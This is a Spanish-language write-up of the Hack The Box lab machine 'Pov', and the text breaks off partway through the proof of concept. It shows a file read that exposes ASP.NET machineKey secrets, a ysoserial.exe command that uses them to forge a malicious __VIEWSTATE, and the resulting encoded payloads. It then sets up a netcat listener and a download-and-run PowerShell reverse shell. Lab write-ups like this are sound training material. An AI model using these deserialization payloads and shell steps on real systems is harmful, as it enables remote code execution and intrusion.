___
Tags: #htb #pov #RunasCsexe #SeDebugPrivilege #ysoserialexe
___
# Pov

## Información General

**- Dificultad:** Medium <br>
**- Sistema operativo:** Windows <br>
**- Fecha de resolución:** 22/08/2026 <br>
**- Enlace:** [Pov](https://app.hackthebox.com/machines/Pov)/

## Correos/Usuarios identificados

A continuación se presentan los usuarios y correos electrónicos identificados en el documento **Pov.pdf**, clasificados en una tabla con la justificación de su función dentro del proceso de compromiso de la máquina hasta alcanzar el nivel de administrador:

| **Usuario / Correo**                            | **Identificador**                            | **Justificación y Rol en el Proceso de Compromiso**                                                                                                                                                                                                                                                                                                                                                                                                            |
| ----------------------------------------------- | -------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **`sfitz`** / **`sfitz@pov.htb`**               | Usuario inicial y Correo del desarrollador   | **Acceso inicial (RCE):** Es el usuario (`pov\sfitz`) asociado a la aplicación web (Stephen Fitz). A través de la explotación de la vulnerabilidad de deserialización insecure en `VIEWSTATE` (`ysoserial.exe`) en el servicio web, se logra la primera ejecución remota de código (RCE) y se obtiene una reverse shell en la máquina objetivo con sus privilegios.                                                                                            |
| **`Michael Abra`**                              | Nombre de usuario mencionado en el sitio web | **Enumeración / Pista:** Aparece en un testimonio dentro del sitio web (`dev.pov.htb`) indicando que Stephen Fitz no utilizaba buenas prácticas de codificación segura en ASP.NET. Sirve como vector conceptual/pista sobre la vulnerabilidad presente en la aplicación.                                                                                                                                                                                       |
| **`alaading`**                                  | Usuario de dominio/sistema                   | **Movimiento lateral / Escalada intermedia:** En el directorio `Documents` del usuario `sfitz`, se localiza el archivo `connection.xml` con credenciales de PowerShell (`PSCredential`) cifradas para este usuario. Tras descifrar su contraseña localmente (`f8gQ8fynP44ek1m3`), se utiliza la herramienta `RunasCs.exe` para ejecutar comandos como `pov\alaading`, obteniendo acceso a su cuenta y a la flag `user.txt`.                                    |
| **`NT AUTHORITY\SYSTEM`** / **`Administrator`** | Administrador del sistema                    | **Escalada de privilegios final:** El usuario `alaading` cuenta con el privilegio `SeDebugPrivilege` activado. Esto permite inyectar código/migrar procesos a nivel de sistema. Mediante una shell de Meterpreter, se realiza una migración de proceso (`migrate`) hacia el PID del proceso de sistema `winlogon` (PID 556), tomando control total como `NT AUTHORITY\SYSTEM` y obteniendo el acceso a la flag `root.txt` en el escritorio de `Administrator`. |

## Listado de Vulnerabilidades Identificadas

A continuación se presentan las vulnerabilidades identificadas en el documento, acompañadas de su respectivo impacto dentro del flujo de compromiso de la máquina:

- **Lectura Arbitraria de Archivos (Local File Read / Arbitrary File Read)**
    
    - **Mecánica:** El parámetro `file` dentro de la función de descarga del portafolio no valida ni sanitiza adecuadamente las rutas absolutas enviadas por el usuario, permitiendo evadir la restricción básica de caracteres (`../`).
        
    - **Impacto:** Permite la extracción de archivos críticos del servidor, como el archivo `web.config`. Esto expone las claves criptográficas de la aplicación (`decryptionKey` y `validationKey`), necesarias para la siguiente fase de ataque.
        
- **Deserialización Insegura de Datos en ASP.NET (`VIEWSTATE`)**
    
    - **Mecánica:** La aplicación confía en los datos desrealizados del parámetro `VIEWSTATE`. Al haber obtenido las claves de cifrado y validación (`AES` y `SHA1`), es posible generar un payload malicioso personalizado mediante `ysoserial.exe`.
        
    - **Impacto:** Permite la Ejecución Remota de Código (RCE) en el servidor objetivo con los privilegios del usuario del servicio IIS/web (`pov\sfitz`).
        
- **Almacenamiento Inseguro de Credenciales (Sensitive Data Exposure)**
    
    - **Mecánica:** Almacenamiento de un archivo de credenciales de PowerShell (`connection.xml` en formato `PSCredential`) en el directorio de documentos del usuario inicial.
        
    - **Impacto:** Aunque las credenciales estaban cifradas por el DPAPI local, la clave de descifrado estaba disponible en el mismo entorno del sistema, permitiendo extraer la contraseña en texto plano (`f8gQ8fynP44ek1m3`) y realizar un movimiento lateral hacia la cuenta del usuario `alaading`.
        
- **Configuración Indebida de Privilegios de Windows (`SeDebugPrivilege` Habilitado)**
    
    - **Mecánica:** El usuario `alaading` posee el privilegio `SeDebugPrivilege` asignado y activado por defecto.
        
    - **Impacto:** Escalada total de privilegios a nivel de sistema (`NT AUTHORITY\SYSTEM`). Este permiso permite inspeccionar y manipular la memoria de cualquier proceso en ejecución (incluyendo procesos críticos como `winlogon.exe`), lo que facilita la migración de la sesión shell de Metasploit para suplantar la identidad del administrador del sistema.
    
## Reconocimiento

**HTB** nos proporciona la ip de la máquina objetivo **10.129.230.183**

### Ping

Dependiendo del resultado podemos deducir si es una máquina linux o window, por ejemplo:

```
ping -c 1 10.129.230.183
```

<p align="center">

</p>

**Su ttl es 128. Por tanto, es Window**

## Enumeración

### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -Pn 10.129.230.183
```

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: pov.htb
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

| Open port/TCP | Service | Version                  |
| ------------- | ------- | ------------------------ |
| 80            | http    | Microsoft IIS httpd 10.0 |

### 80 - web

Este sitio es para un servicio de monitoreo de ciberseguridad.

<p align="center">

</p>

Todos los enlaces de la página no llevan a ninguna parte. El formulario "Contacto" ni siquiera envía los datos introducidos, así que es simplemente un espacio reservado.

En la página, hay una dirección de correo electrónico: `sfitz@pov.htb`.

#### Fuzzing web - vhost

Dado que se menciona el nombre de dominio, utilizaré " `ffuf` " para intentar adivinar cualquier subdominio de " `pov.htb` " que devuelva algo diferente de la página predeterminada.

```
ffuf -u http://10.129.230.183/ -H "Host: FUZZ.pov.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -mc all -ac
```

> dev

Casi de inmediato, identifica `dev.pov.htb` . Agregaré ambos a mi archivo `/etc/hosts` , donde puedo interactuar con estos dominios.

```
10.129.230.183 pov.htb dev.pov.htb
```

### Vhost - dev.pov.htb

<p align="center">

</p>

```
Soy desarrollador web desde hace 4 años. Me dedico a la creación de aplicaciones web en diferentes lenguajes como JS, ASP.NET y PHP. Además, he dedicado tiempo a temas relacionados con la interfaz de usuario (UI) y la experiencia de usuario (UX). He desarrollado proyectos de aplicaciones web para empresas que desean tener presencia en internet. Si desea obtener más información sobre mi experiencia profesional, puede descargar mi CV con el botón que aparece a continuación.
```

En el primer párrafo, hay una referencia a " `ASP.NET` " en negrita. Además el bóton de descarga como él dice te aporta su currículum 

<p align="center">

</p>

```
Creo que su trabajo es bueno, sin embargo, noté que no aplicaba buenas prácticas de codificación segura, especialmente al programar en ASP.Net.
```

Una opinión menciona que es bueno, pero no excelente en seguridad ( `ASP.NET` ):

#### Fuzzing web

Voy a ejecutar `feroxbuster` contra el sitio e incluir `-x aspx` ya que sé que el sitio usa `ASP.NET` , y con una lista de palabras minúsculas ya que el servidor es IIS, pero añadiendo **/portfolio** que es donde se descarga el currículum.

```
feroxbuster -u http://dev.pov.htb/portfolio -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -x aspx
```

<p align="center">

</p>

También hay el **default.aspx** , que identifiqué por deducción, así como el **contact.aspx** 

En **contact.aspx** hay un formulario de contacto tiene un aspecto poco atractivo (parece un sitio web móvil). Al enviar este formulario, los datos se envían, aunque no hay indicación de que se haga algo con ellos.

## Explotación

### Shell como sfitz

#### Analizando la solicitud del currículum

En Burp, cuando hago clic en "Descargar CV", encontraré la solicitud que se envía y la enviaré al Repeater

<p align="center">

</p>

Hay algunas cosas interesantes aquí: 

Se utiliza `VIEWSTATE` , que es un método en aplicaciones de Windows ASP.NET donde los datos de sesión pueden enviarse al usuario y luego volver a enviarse en la siguiente solicitud, lo que permite que el servidor no tenga que almacenarlos. Para asegurar esto, los datos se cifran utilizando una clave almacenada por el servidor, de modo que un atacante no pueda modificar los datos sin esa clave.

El nombre del archivo se especifica en el parámetro `file` .

####  Lectura de archivo

Dado que la solicitud solicita un archivo, intentaré solicitar otros archivos también. Sé que existe un archivo " `default.aspx` ", y puedo leerlo.

<p align="center">

</p>

`default.aspx` está casi completamente en HTML, pero incluye un código C# al principio. También puedo leer `index.aspx.cs` :

```
using System;
using System.Collections.Generic;
using System.Web;
using System.Web.UI;
using System.Web.UI.WebControls;
using System.Text.RegularExpressions;
using System.Text;
using System.IO;
using System.Net;

public partial class index : System.Web.UI.Page {
    protected void Page_Load(object sender, EventArgs e) {

    }
    
    protected void Download(object sender, EventArgs e) {
            
        var filePath = file.Value;
        filePath = Regex.Replace(filePath, "../", "");
        Response.ContentType = "application/octet-stream";
        Response.AppendHeader("Content-Disposition","attachment; filename=" + filePath);
        Response.TransmitFile(filePath);
        Response.End();
        
    }
}
```

Este es el código que lee el archivo. Reemplaza " `../` " con una cadena vacía, pero de lo contrario, leerá cualquier ruta de archivo.

No pude lograr que la lectura de archivos funcionara a nivel de sistema utilizando rutas relativas (ni siquiera con soluciones como `....//` ), pero al utilizar rutas absolutas, funcionó correctamente.

<p align="center">

</p>

No estoy seguro de por qué no funciona. Las rutas relativas dentro del directorio sí funcionan (como veré más adelante). Creo que esto es porque la aplicación está ubicada en un directorio superior al actual, y IIS no permite que las rutas relativas salgan de ese directorio.

La configuración de ViewState se encuentra en el archivo " `web.config` " del sitio. No hay un archivo " `web.config` " en el directorio actual ( " `portfolio` " ), pero sí uno en el nivel superior.

<p align="center">

</p>

El archivo XML completo es:

```
<configuration>
  <system.web>
    <customErrors mode="On" defaultRedirect="default.aspx" />
    <httpRuntime targetFramework="4.5" />
    <machineKey decryption="AES" decryptionKey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" validation="SHA1" validationKey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" />
  </system.web>
    <system.webServer>
        <httpErrors>
            <remove statusCode="403" subStatusCode="-1" />
            <error statusCode="403" prefixLanguageFilePath="" path="http://dev.pov.htb:8080/portfolio" responseMode="Redirect" />
        </httpErrors>
        <httpRedirect enabled="true" destination="http://dev.pov.htb/portfolio" exactDestination="false" childOnly="true" />
    </system.webServer>
</configuration>
```

#### ysoserial.exe

`ysoserial.exe` es una herramienta estándar de ciberseguridad y hacking ético utilizada para **generar payloads de explotación de deserialización insegura en aplicaciones .NET**. El propósito principal de `ysoserial.exe` es lograr **RCE**

A continuación para usar esta herramienta **ysoserial.exe** se usa en Windows, a la hora de instalar la herramienta el antivirus automáticamente lo borraba, por tanto, hay que añadirlo a la **exclusión** de la **Configuración de antivirus y protección contra amenazas**

Este comando le ordena a la herramienta `ysoserial.exe` que genere un parámetro `__VIEWSTATE` malicioso utilizando el generador de gadgets `WindowsIdentity` y las llaves criptográficas exactas extraídas del archivo `web.config` (`AES` y `SHA1`). Al mismo tiempo, le indica que el payload debe dirigirse a la ruta `/portfolio` y configurarse para ejecutar el comando de red `ping 10.10.14.188` en el servidor víctima cuando la aplicación deserialice dichos datos, lo que te permitirá comprobar si existe ejecución remota de código (RCE) al recibir dicha traza de red en tu máquina de atacante.

```
.\ysoserial.exe -p ViewState -g WindowsIdentity --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" --path="/portfolio" -c "ping 10.10.14.188"
```

El payload --> `Q%2FJQF6rx2S45EjtZsOvaDg4mc1Nrqq%2Bni1eNTBaqDWmHxsP0fR14JYmK4xmD9RDPIxcFVN2v95NrRYxtXyRhGso1jwJqfwQqx3%2Fk2OJJzWQCs2EYSa%2BnGaJzGv%2BVkxNqCE1A97GXMfN2C%2FwIcE0r%2F0Qta5PdeAW2A85wYfz8AKXxK%2BjnO%2BmmDpBkmUa1H8MfmWkmpCpMNOwd2ogyzvKMXytu62QUbWsL9ULMNnX%2Bk3IYQNaCrBFdryFm0jkmXlmPaPbc4uSjHuq0qbyEcxNmJ7n9iyuDroNNm1aJOSTekFxa1y2hAehFhS1fsv9obcMlu37qyf741kD0L6MbhwvUmWDUdI%2FpJGf%2Fj5XoK7G3MEJ7c4yJ%2F7oZ%2BlsGYguFqMPJBBnoEtgDnKhUqoftKrAkrp3u78sgbRg2O4zK0I9wiy8tMNjzvjvB6VMzP9Uo5HRYo3ALHreIfj169AQyawIAPgnbaDb4RGiLyjY2j5fbKWAHsNcRTfo9GxAS173Gnw2q7bLGbj%2FYb%2FHc8qN1z3%2Fm9Eb%2BlWtIq9TdxranOtsSIwWwnrzaoEPUYPgwFFNbA5%2FB91CjEL8EssRjogt2TShCU%2B4tycZT860QXA7PVNtXZ0F%2B9W1kUXSnJzBVQgzz3EBfHybVCWfLJ%2FeQqDcrEhb1X8zasqePXVYfSmUiSIuC7JzHh9PVwiR%2FkBoXtRxz1HaYvtUjO5RYJXZCQRYH0weP4N0wMzIHznzmSMATGe1lzYDrNU6kfn3oy4tkZDD5F%2BPeva8tUqRQUqwSA4yRyAiaBiD6PsFWoS5APLFe2io%2BABtcQv2LXwQm%2BKLM4usMkCbMVIk52VA4SsUZSipKKvrC6CuuOjd8rNmfLl1ACZv7r24UNj4%2F%2B1tffHooPHGHMoyndfX6NOE1XxX7SmVReaQctNUAPaP6zFLGjT4dh19%2FdSFkpJ0qffK4EAITR0HXv%2BG2orBEVkcJzrX4ZiJ2t6h3vetdRBkb%2BA%2BCN%2Bx8clOz3iQ2AWwUbJLD1HBzoCkAZlSx0mKn4jgGqQ7xuxNRBpI2ICV%2Bf1EFjUdxSTBEn61nEh4KBC3D3TNzYdImh%2B6Rz4kQqWnhqumII76opBCiajUJz3pQN%2FRAa5CBeoTr4EvWM6dhZ%2BvWNeW81RMVoBeq6igIrFj6LH27PVPIJ9WF6AYl3k8k2fv%2BEOcgohuBPUlJ2zIf873vVllYfcgzxVqTxWNVPhPjXSzyvwzx8ed6FJTNDZZKg7ngqSyj64ChGwkcXGYtYNySBrCEGwMLGpBDq%2BhYhLP%2BtZMW255ebDBiEfhjsz30DR3XtFCh63A%2BW%2FeSiUGqWfSidm7R0lOgpzw0exjVjPhxpnmkuovYrjgxXCsd6B0kZNJus%2FDbxYNfcTLWQBnJpEuELRrPlBCmXegb72KZ3J2vcpDsLUWcsMt1Udm0XzDPytWIS%2Bu8qP2suYa%2FDaGjk7%2FFEFFSTAZ7Jbn7OtXWcwe%2FZ69t1Ja2Y7TGVtQggL3YuJrElF776SaKbXCR0rlAZ3WAuT%2B3tdfx0eh7x5BjYrdGilD1mttPDA34w9wuh1fzir12QA5bnZRfc7Ac3B%2FaQfIXGu3E%2FNXoTYUopXz%2Fpw5PjH0Gu%2BGHcL12IYDTyZSbMKTLGU6FgkRLGu7I7S39UR8N%2Ba1crFH2AJo09RqXEwcFlknAhGTPX6HvjIOE83YpEsSYRvCeEHcn4VAoOGE8QYJdDeoWXvnzpsUDjo8QIyI90ju6PI5jJu8t%2BNrDxRhDn%2F7AO8b306HZ0fEU8uIN5k%2B0CII717h4rwx01pKyPdmQlD%2BbZ%2F2uQJTjv3STuit8NwoXTO3hr3ZuZfOSbxVv1TfC1h4evsaEerRhs5QMhRom3Q%3D%3D`

Esto lo copiamos en **burpsuite**

<p align="center">

</p>

Antes de enviar la consulta preparamos **tcpdump** 

```
sudo tcpdump -i tun0 icmp
```

Estás usando `tcpdump` para escuchar tráfico ICMP (pings) en tu interfaz VPN (`tun0`). Como ves que **`pov.htb` te está enviando peticiones de eco**, confirma que **la ejecución remota de código (RCE) ha funcionado con éxito** y el servidor de la víctima ejecutó el comando de ping hacia tu máquina.

<p align="center">

</p>

##### POC

1. **Prepara tu oyente en Kali**

Abre una terminal en tu máquina Kali y pon a escuchar Netcat en el puerto que prefieras (por ejemplo, `4444`):

```
nc -lvnp 4444
```

 2. **Prepara el script de Reverse Shell (PowerShell)**

En otra terminal de tu Kali, crea un archivo script llamado `shell.ps1` usando un payload clásico de PowerShell:

<p align="center">

</p>

 3. **Levanta un servidor web Python en Kali**

En la misma carpeta donde creaste `shell.ps1`, levanta un servidor HTTP para que el objetivo pueda descargar la shell:

```
python3 -m http.server 80
```

 4. **Genera el payload final con `ysoserial`**

Ahora genera una nueva cadena de `__VIEWSTATE` usando el comando de PowerShell que forzará a `pov.htb` a descargar tu script e ejecutarlo en memoria:

<p align="center">

</p>

 El payload --> `zEY3aH%2BV3n31p42MFXI%2Fb2%2FxcIDWwRwpujAnBqPVXKoZCJGhsVjv3CTJvkwlR6xmodweR0rfK2ga9AoiwlW0kdv8Uvonks%2FlIVfbLRmUaJbE%2Fe2cO4mekJCWYXwQ6AFcPWfzwotfEXonHqQr8B99aKD3yeit5FDjpeUaX7yAQh1Fvj9dB9TOOf%2FHWpkTVB5QR18beJzjisH%2BTu74uMJ0po%2F%2FzivqV8%2BKvzZUBJbR%2FOy%2FwNxlTK%2FbogAbhsXh2UMPvQJqkH1n71mqzZVoqtk2gQDYxShgyPXI0vqqP2113aXQe1RdVUJIgs3JRZI1jTmV8h5b0548tnYEZr18i3xo%2FTx7kxWrV7l49OwefSoSW7cbRIjAihu%2FbRwCx25q5yPiCqmaPu%2FrAgPOpX3PO2kKVPMJ7bnr6bsz%2FXwUJlmOZ6vdE1LNyL9AOY4lUmEWEW9el9at8HwPUg9cM%2Fv7HwEM7NGEZwuTzst20rJD9R5ilhTX%2BE%2BINea0o4I32e5VEptFEsyXmg%2FCM63V%2F2HCDlL%2FPPE2MXuPu%2FMDt%2BZBV%2FDe4Y6CsX%2By527wRuGUdU7HvCAIwMRMlx23A7t8Uw94S9rMVG%2Fv29QI1De9pCODFcScK%2Fdli01DaSm6yCTK0Wp6jOnbvAgHbP8yW37t7Nj7S0voL0Dow0RhQyRvlQkqlbT%2B5ryvdXLQANEWIufteH4pWCIfQZ3Jl9l%2FMEunbfxwCUmXicZWsws823UidMWClgTIgxc3eHcMBIycqabm3lZL1ZxNxYA4gcCJtrBsFFJ9VdAeHr7NwoAprHeXy0budfA6wM3IM7U9JABEGZCJNKidQPolw81hUnB2NLweEm8%2F8MLVsXNzwQzEqkj8TTKeQ9usB27Scj0eDxeUwJO4Bzg8Ds4LwHB2LCHAvNvOI4tVecbNjM1cUX%2BKnuIQa6XvZmqbS5LobA%2FAmv%2FOBSlPsnI8x9Kw7NIEcFZ62vp5sKXijJEqnDsUdBeuOAWmNzVXIy%2FBFNiGzfVq1gKtXpR%2Bkocqf5zK2t5Tbsi2trqgifBWcbt7SlYnCXSxRjo3jSC2Tc4Qd%2FAFXQJVvkhDsnF7Xcyj4%2FlRidgZ%2FFuVKAlHCTuhji5Cd%2FO72yiP%2FPEPUnIvgd0eXCFqpn%2BIaxMlgcX9D9F9WFDUrWmTRdMicA%2FYdoHOnfLHaKSIlTcp%2FjkX%2FCe4CvQsL%2Fcj0p2uuj5TTpokdcgxDmmznYsMm0n7OPm8MCnFaBRWPXzmE4lNAAHU%2BMGuhrNhbmL3%2BVA%2BOoMoZhcG6vI%2FXzo1cr5ZpUTpHRx%2FYfGKFwsfnqJkuU4NRmD96mP%2FCMHnCXcrqr6bPHWq%2B7WtS%2FK7HsgNjyQvkKmzNZOmzddWJtGEabcB8Ehv8rAaC3Bpia6t7pQuE4kzr1CFBbqoiV9v%2BmMoATRuGXV9KGJCkQATqrHjk6fvFl2W7y6Jfd3a1c%2Fsk0kzgwOcZ9xIPVrkv7jyvrw3Q4aMWcE15lnQRQYFvjxkO0GpLAa6DbTJ%2BpZqVwBVE71SJIz%2FyfrGEUr3vyYlZzWribxJk1EPxLm59IbJDErDmk2A2rZGsD2CwINyBamj7KjRszUB1oiF%2Bnf9S%2FfQveHKxE9q9bSSpVDDatoLHaVzzmycb90SyoXlUUDJYcKu69y2g%2BaFX6N57igmAJN9hD7bdJBhGInwPA%2B9ho1Q95X1hy%2FOrmPNvgrX3Xft04R8iau5cb9P7WMGFYq9IChafwZTN5RV%2F3v71yCS0nBii66x3wkpx1PGfYfQnRWKP0jLEiiy8kre1p8Z7s8tAHx2h%2BIhXICfbZ0K68E8%2FakXV0Q8cONkTrTRPcgZE4%2Fq9%2BJHFTuNbX1pF3T7XPtqIrWhB57ylvZKRsCriWZ1Kkye%2B0WC1KxA7S%2FWzCwN0IyfzMx6dcE6dQ6WnByCO23HmS%2BqWAKFuNL5ooAohbTBwjAM%2BG33bkuVmWuDgoLgiozBySMRsaXcnYWJ3gn72PfcGGKhtTJZ0RoWNQ%3D%3D`

En burpsuite copiamos ese payload a la consulta, quedaría tal que así:

<p align="center">
